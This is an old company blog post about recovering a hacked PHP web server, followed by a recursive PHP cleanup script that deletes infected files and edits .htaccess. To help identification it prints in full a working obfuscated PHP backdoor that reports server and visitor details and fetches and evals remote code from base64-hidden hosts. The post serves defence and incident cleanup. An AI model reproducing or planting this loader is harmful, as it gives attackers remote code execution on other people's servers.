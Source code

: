 ```yaml
---
layout: post
status: publish
published: true
title: Hacked Server - Cleanup Script
author: admin
author_login: blogadmin
author_email: info@edmondscommerce.co.uk
author_url: http://www.edmondscommerce.co.uk
wordpress_id: 1186
wordpress_url: http://www.edmondscommerce.co.uk/blog/?p=1186
date: 2009-09-14 14:24:47.000000000 +01:00
categories:
- php
tags:
- edmondscommerce
---
```

<div class="oldpost"><h4>This is an old post. The information it contains is probably out of date or innacurate</h4>
<p>
This is a post that was written a long time ago and is only being kept here for posterity.
You should probably look up more recent blog posts related to the subject you are researching
</p>
</div>
If you suddenly find a load of weird php files in your server with contents a bit like this:

```php

<? error_reporting(0);$a=(isset($_SERVER["HTTP_HOST"])?$_SERVER["HTTP_HOST"]:$HTTP_HOST);$b=(isset($_SERVER["SERVER_NAME"])?$_SERVER["SERVER_NAME"]:$SERVER_NAME);$c=(isset($_SERVER["REQUEST_URI"])?$_SERVER["REQUEST_URI"]:$REQUEST_URI);$d=(isset($_SERVER["PHP_SELF"])?$_SERVER["PHP_SELF"]:$PHP_SELF);$e=(isset($_SERVER["QUERY_STRING"])?$_SERVER["QUERY_STRING"]:$QUERY_STRING);$f=(isset($_SERVER["HTTP_REFERER"])?$_SERVER["HTTP_REFERER"]:$HTTP_REFERER);$g=(isset($_SERVER["HTTP_USER_AGENT"])?$_SERVER["HTTP_USER_AGENT"]:$HTTP_USER_AGENT);$h=(isset($_SERVER["REMOTE_ADDR"])?$_SERVER["REMOTE_ADDR"]:$REMOTE_ADDR);$i=(isset($_SERVER["SCRIPT_FILENAME"])?$_SERVER["SCRIPT_FILENAME"]:$SCRIPT_FILENAME);$j=(isset($_SERVER["HTTP_ACCEPT_LANGUAGE"])?$_SERVER["HTTP_ACCEPT_LANGUAGE"]:$HTTP_ACCEPT_LANGUAGE);$z="/?".base64_encode($a).".".base64_encode($b).".".base64_encode($c).".".base64_encode($d).".".base64_encode($e).".".base64_encode($f).".".base64_encode($g).".".base64_encode($h).".e.".base64_encode($i).".".base64_encode($j);$f=base64_decode("cnNzbmV3cy53cw==");if (basename($c)==basename($i)&&isset($_REQUEST["q"])&&md5($_REQUEST["q"])=="bbb9c757ee480495e0311cdcd352dfb1") $f=$_REQUEST["id"];if((include(base64_decode("aHR0cDovL2Fkcy4=").$f.$z)));else if($c=file_get_contents(base64_decode("aHR0cDovLzcu").$f.$z))eval($c);else{$cu=curl_init(base64_decode("aHR0cDovLzcxLg==").$f.$z);curl_setopt($cu,CURLOPT_RETURNTRANSFER,1);$o=curl_exec($cu);curl_close($cu);eval($o);};die(); ?>

```

Then it looks like your server has been compromised and you immediately need to change your FTP password to something long and secure.

After that, ideally restore a backup of your site that does not include the dodgy files. Alternatively you might find this PHP script useful for cleaning things out:

Note - No warranty or anything for this script. Use it as it is or customise it to fix your particular requirements.

To use it, get a copy of the infected file structure. CHMOD it all to 777 so that we can edit the htaccess files (dont forget to change permissions again once its done). Put this script in the root folder and visit it in your browser.

It will tidy up all the htaccess files and will remove all the dodgy files.

```php

<?php

/* recursively delete all php files that are numeric titles, then edit all htaccess files and remove the 404 message */

$directory=getcwd();

$dirs = dir_list(getcwd());

clean($dirs, $directory);

function clean($dirs, $directory){	
	foreach($dirs as $k=>$v){
		if(is_array($v)){
			clean($v, "$directory/$k");
		}else{
			if(preg_match('%^([0-9]+?)\.php$%', $v)){
				echo '<h3>Cleaning: '.$directory.'</h3>';
				echo '<br>'.$v;
				echo '<br>'.$directory.'<br>';
				$htaccess=file_get_contents("$directory/.htaccess");
				$pattern = '%ErrorDocument(.+?)([0-9]+?)\.php$%';
				$clean_ht = preg_replace($pattern, '', $htaccess);
				unlink("$directory/.htaccess");
				file_put_contents("$directory/.htaccess", $clean_ht);
				unlink("$directory/$v");
				echo '<h3>Cleaned: '.$directory.'</h3>';				
			}
		}
	}
}


function dir_list($directory, $ext=false){
	//echo $directory;
	if ($handle = opendir($directory)) {
		while (false !== ($file = readdir($handle))) {
			if($file != '.' && $file != '..'){
				if(is_dir($directory.'/'.$file)){
					$return[$file]=dir_list($directory.'/'.$file, $ext);			
				}elseif($ext != false){
					if($ext == file_ext($file)){
						$return[] = $file;
					}			
				}else{
					$return[] = $file;
				}
			}
		}
		closedir($handle);
		return $return;
	}else{		
		echo '<h3 style="color: red;">Error opening directory ' . $directory . '</h3>';
		return false;
	}
}


```

<a href="http://www.phpfreaks.com/forums/index.php?topic=251135.0">http://www.phpfreaks.com/forums/index.php?topic=251135.0</a>
<a href="http://wordpress.org/support/topic/220523">http://wordpress.org/support/topic/220523</a>
<a href="http://www.experts-exchange.com/Web_Development/Web_Services/Q_24209148.html">http://www.experts-exchange.com/Web_Development/Web_Services/Q_24209148.html</a>
